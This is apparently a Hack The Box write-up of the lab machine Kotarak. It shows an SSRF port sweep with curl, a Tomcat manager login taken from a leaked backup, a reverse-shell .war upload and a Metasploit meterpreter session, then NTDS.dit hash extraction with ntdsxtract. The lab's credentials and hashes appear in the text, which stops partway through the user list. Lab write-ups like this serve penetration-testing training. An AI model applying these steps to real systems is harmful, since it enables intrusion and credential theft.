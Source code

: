 ```yaml
---
layout: post
title: Kotarak(HTB)
categories:
  - Writeup
---
```


<br>OS linux
<br>IP: 10.10.10.55


**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.55</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-10 02:58 EST
<br>Warning: 10.10.10.55 giving up on port because retransmission cap hit (6).
<br>Nmap scan report for 10.10.10.55
<br>Host is up (0.17s latency).
<br>Not shown: 65531 closed ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font>    open  <font color="53E100">ssh</font>     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">8009/tcp</font>  open  <font color="53E100">ajp13</font>   Apache Jserv (Protocol v1.3)
<br><font color="BB69EC">8080/tcp</font>  open  <font color="53E100">http</font>    Apache Tomcat 8.5.5
<br><font color="BB69EC">60000/tcp</font> open  <font color="53E100">http</font>    Apache httpd 2.4.18 ((Ubuntu))
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 3859.03 seconds</p>

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

<br>**Web**:-
<br>**PORT**:- 8080

![1](https://teckk2.github.io/assets/images/Kotarak/1.JPG)
<br>Tomca 8.5.5 is running
![2](https://teckk2.github.io/assets/images/Kotarak/2.JPG)
<br>To access it we need a valid password, let's find it.

<br>**Port**:- 60000
![3](https://teckk2.github.io/assets/images/Kotarak/3.JPG)
<br>On this port a private web service is running which access the file from internal system, let's enumerate it further
![4](https://teckk2.github.io/assets/images/Kotarak/4.JPG)
![5](https://teckk2.github.io/assets/images/Kotarak/5.JPG)
<br>There is no ouput, and the server is running a url.php and we also need to specify a path which Maybe running in some internal port,So we need to find the correct internal port first.
<br>**for i in $(seq 1 60000); do echo $i; curl -X GET http://10.10.10.55:60000/url.php?path=http://localhost:$i/ 2> /dev/null | tr -d "\n"; done**
![6](https://teckk2.github.io/assets/images/Kotarak/6.JPG)
<br>Thanks my friend [**Zc00l**](https://www.hackthebox.eu/profile/3564) for helping me in the bash command above, this will ping all the internal port 1 by 1 and if it get's any response it will show it to us in the output.
![7](https://teckk2.github.io/assets/images/Kotarak/7.JPG)
<br>On internal port **888** we got some response which is is refering to a doc file named backup, let's try to read it
![8](https://teckk2.github.io/assets/images/Kotarak/8.JPG)
![9](https://teckk2.github.io/assets/images/Kotarak/9.JPG)
<br>And we got the admin password to loggin to Tomcat server
<br>username="**admin**" password="**3@g01PdhB!**"
![10](https://teckk2.github.io/assets/images/Kotarak/10.JPG)

<br>**Shell**
<br>**First Method**-(NC)
<br>First generate a java payload for reverse shell with .war extension
![11](https://teckk2.github.io/assets/images/Kotarak/11.JPG)
<br>Now from tomcat webpage, browse the file and upload it,
![12](https://teckk2.github.io/assets/images/Kotarak/12.JPG)
![13](https://teckk2.github.io/assets/images/Kotarak/13.JPG)
<br>Now steup the listner and then click the file, or just open it on another browser and we will get the reverse shell

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.55] 51012
<br>id
<br>uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
<br><font color="ffff00">python -c 'import pty;pty.spawn("/bin/bash")'</font>
<br>tomcat@kotarak-dmz:/$ </p>

</div>
</font>

<br>**Second Method**-(Meterpreter)

<font size="1">
<div style="height:600px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/multi/http/tomcat_mgr_upload
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set HttpPassword 3@g01PdhB!
<br>HttpPassword => 3@g01PdhB!
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set HttpUsername admin
<br>HttpUsername => admin
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set RHOST 10.10.10.55
<br>RHOST => 10.10.10.55
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set RPORT 8080
<br>RPORT => 8080
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set payload java/meterpreter/reverse_tcp 
<br>payload => java/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Retrieving session ID and CSRF token...
<br><font color="RoyalBlue">[*]</font> Uploading and deploying SpSZIX2EJFTDocUB04tgi...
<br><font color="RoyalBlue">[*]</font> Executing SpSZIX2EJFTDocUB04tgi...
<br><font color="RoyalBlue">[*]</font> Undeploying SpSZIX2EJFTDocUB04tgi ...
<br><font color="RoyalBlue">[*]</font> Sending stage (49645 bytes) to 10.10.10.55
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:444 -> 10.10.10.55:33730) at 2018-03-10 06:27:46 -0500</p>

<p>meterpreter > getuid 
<br>Server username: tomcat
<br>meterpreter >
<br>...
<br>....
<br>.....
<br>meterpreter > pwd
<br>/home/tomcat/to_archive/pentest_data
<br>meterpreter > ls -la
<br>Listing: /home/tomcat/to_archive/pentest_data
<br>=============================================</p>

<p>Mode&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Size&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Type&nbsp;&nbsp;Last modified&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Name
<br>----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>100666/rw-rw-rw-&nbsp;&nbsp;16793600&nbsp;&nbsp;fil&nbsp;&nbsp;&nbsp;2017-07-21 12:16:23 -0400&nbsp;&nbsp;20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>100666/rw-rw-rw-&nbsp;&nbsp;12189696&nbsp;&nbsp;fil&nbsp;&nbsp;&nbsp;2017-07-21 12:16:45 -0400  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin</p>

<p>meterpreter > <font color="ffff00">download 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit</font>
<br><font color="RoyalBlue">[*]</font> Downloading: 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 4.00 KiB of 16.02 MiB (0.02%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 8.00 KiB of 16.02 MiB (0.05%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 12.00 KiB of 16.02 MiB (0.07%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 KiB of 16.02 MiB (0.1%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>....
<br>......
<br>........
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 MiB of 16.02 MiB (99.9%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 MiB of 16.02 MiB (99.93%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.01 MiB of 16.02 MiB (99.95%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.01 MiB of 16.02 MiB (99.98%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.02 MiB of 16.02 MiB (100.0%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> download   : 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>meterpreter >
<br>meterpreter >
<br>meterpreter > <font color="ffff00">download 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin</font>
<br><font color="RoyalBlue">[*]</font> Downloading: 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 4.00 KiB of 11.62 MiB (0.03%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 8.00 KiB of 11.62 MiB (0.07%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 12.00 KiB of 11.62 MiB (0.1%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 KiB of 11.62 MiB (0.13%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 20.00 KiB of 11.62 MiB (0.17%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br>....
<br>......
<br>........
<br><font color="RoyalBlue">[*]</font> Downloaded 11.61 MiB of 11.62 MiB (99.87%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.61 MiB of 11.62 MiB (99.9%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (99.93%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (99.97%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (100.0%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> download   : 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br>meterpreter > </p>

</div>
</font>

<br>We don't have user access, so from **/home/tomcat/to archive/pentest data** I downloaded both the files which was .dit and .bin.
<br>The ntds.dit file is the heart of Active Directory including user accounts. Active Directory's database engine is the Extensible Storage Engine ( ESE ) which is based on the Jet database used by Exchange 5.5 and WINS.
<br>So now from these files we can extract the password hash of users, but before that we need to download few tools
<br>Dowload [libesedb](https://github.com/libyal/libesedb/releases), [ntdsxtract](https://github.com/csababarta/ntdsxtract) and install it.
![14](https://teckk2.github.io/assets/images/Kotarak/14.JPG)
![15](https://teckk2.github.io/assets/images/Kotarak/15.JPG)
![16](https://teckk2.github.io/assets/images/Kotarak/16.JPG)
![17](https://teckk2.github.io/assets/images/Kotarak/17.JPG)

<br>Now extarct all the files which is inside .dit
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak</font># esedbexport -m tables 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>esedbexport 20170121</p>

<p>Opening file.
<br>Exporting table 1 (MSysObjects) out of 12.
<br>Exporting table 2 (MSysObjectsShadow) out of 12.
<br>Exporting table 3 (MSysUnicodeFixupVer2) out of 12.
<br>Exporting table 4 (datatable) out of 12.
<br>Exporting table 5 (hiddentable) out of 12.
<br>Exporting table 6 (link_table) out of 12.
<br>Exporting table 7 (sdpropcounttable) out of 12.
<br>Exporting table 8 (sdproptable) out of 12.
<br>Exporting table 9 (sd_table) out of 12.
<br>Exporting table 10 (MSysDefrag2) out of 12.
<br>Exporting table 11 (quota_table) out of 12.
<br>Exporting table 12 (quota_rebuild_progress_table) out of 12.
<br>Export completed.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak</font># cd 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export</font># ls -la
<br>total 11292
<br>drwxr-xr-x 2 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4096 Mar 10 08:44 .
<br>drwxr-xr-x 3 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4096 Mar 10 08:44 ..
<br>-rw-r--r-- 1 root root&nbsp;11156264 Mar 10 08:44 datatable.3
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;695 Mar 10 08:44 hiddentable.4
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;6885 Mar 10 08:44 link_table.5
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;306 Mar 10 08:44 MSysDefrag2.9
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;76277 Mar 10 08:44 MSysObjects.0
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;76277 Mar 10 08:44 MSysObjectsShadow.1
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;103 Mar 10 08:44 MSysUnicodeFixupVer2.2
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;80 Mar 10 08:44 quota_rebuild_progress_table.11
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;967 Mar 10 08:44 quota_table.10
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;14 Mar 10 08:44 sdpropcounttable.6
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;96 Mar 10 08:44 sdproptable.7
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;200728 Mar 10 08:44 sd_table.8
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export</font># </p>

</div>
</font>

<br>Now with the ntdsxtract we can retrive the hash, for which we have to specify **datatable.3**, **link_table.5**, **089134.bin**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/ntdsxtract-master</font># ./dsusers.py /root/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export/datatable.3 /root/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export/link_table.5 /root/Desktop/Kotarak/hashdumpwork --syshive /root/Desktop/Kotarak/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin --passwordhashes --lmoutfile /root/Desktop/Kotarak/lm-out.txt --ntoutfile /root/Desktop/Kotarak/nt-out.txt --pwdformat john</p>

<p>[+] Started at: Sat, 10 Mar 2018 13:58:06 UTC
<br>[+] Started with options:
<br>&nbsp;[-] Extracting password hashes
<br>&nbsp;[-] LM hash output filename: /root/Desktop/Kotarak/lm-out.txt
<br>&nbsp;[-] NT hash output filename: /root/Desktop/Kotarak/nt-out.txt
<br>&nbsp;[-] Hash output format: john
<br>The directory (/root/Desktop/Kotarak/hashdumpwork) specified does not exists!
<br>Would you like to create it? [Y/N] Y</p>

<p>[+] Initialising engine...
<br>[+] Loading saved map files (Stage 1)...
<br>[!] Warning: Opening saved maps failed: [Errno 2] No such file or directory: '/root/Desktop/Kotarak/hashdumpwork/offlid.map'
<br>[+] Rebuilding maps...
<br>[+] Scanning database - 100% -> 3464 records processed
<br>[+] Sanity checks...
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Schema record id: 1811
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Schema type id: 10
<br>[+] Extracting schema information - 100% -> 1549 records processed
<br>[+] Loading saved map files (Stage 2)...
<br>[!] Warning: Opening saved maps failed: [Errno 2] No such file or directory: '/root/Desktop/Kotarak/hashdumpwork/links.map'
<br>[+] Rebuilding maps...
<br>[+] Extracting object links...</p>

<p>List of users:
<br>==============
<br>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3562
<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">Administrator</font>
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Administrator
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5f9433a8-7363-4f5e-8d3c-4a4dacca157c
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-500
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:33:08+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:39:07+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:39:07.354826+00:00
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:48:56.134512+00:00
<br>Last logon timestamp:&nbsp;2017-07-21 13:52:48.669583+00:00
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 13:52:19.684732+00:00
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;63
<br>Bad password count:&nbsp;&nbsp;&nbsp;0
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;NORMAL_ACCOUNT
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, Administrator
<br>Password hashes:
<br>&nbsp;<font color="ffff00">Administrator:$NT$e64fe0f24ba2489c05e64354d74ebd11</font>:S-1-5-21-1036816736-4081296861-1938768537-500::</p>

<p>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3563
<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Guest
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Guest
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2bf50d7e-79e6-4aab-a81c-157e7a1b6f44
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-501
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:33:08+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:33:08+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Last logon timestamp:&nbsp;Never
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-11-25 22:46:55.531557+00:00
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0
<br>Bad password count:&nbsp;&nbsp;&nbsp;1
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;ACCOUNTDISABLE
<br>&nbsp;PWD_NOTREQD
<br>&nbsp;NORMAL_ACCOUNT
<br>&nbsp;DONT_EXPIRE_PASSWORD
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, Guest
<br>Password hashes:</p>

<p>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3609
<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;krbtgt
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;krbtgt
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ce21ca0e-4f4d-49c9-9942-40b0d6ae913d
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-502
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:34:47+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 13:57:55+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 13:57:55.522122+00:00
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Last logon timestamp:&nbsp;Never
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0
<br>Bad password count:&nbsp;&nbsp;&nbsp;0
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;ACCOUNTDISABLE
<br>&nbsp;NORMAL_ACCOUNT
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, krbtgt
<br>Password hashes:
<br>&nbsp;krbtgt:$NT$ca1ccefcb525db49828fbb9d68298eee:S-1-5-21-1036816736-4081296861-1938768537-502::</p>

<p>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3776
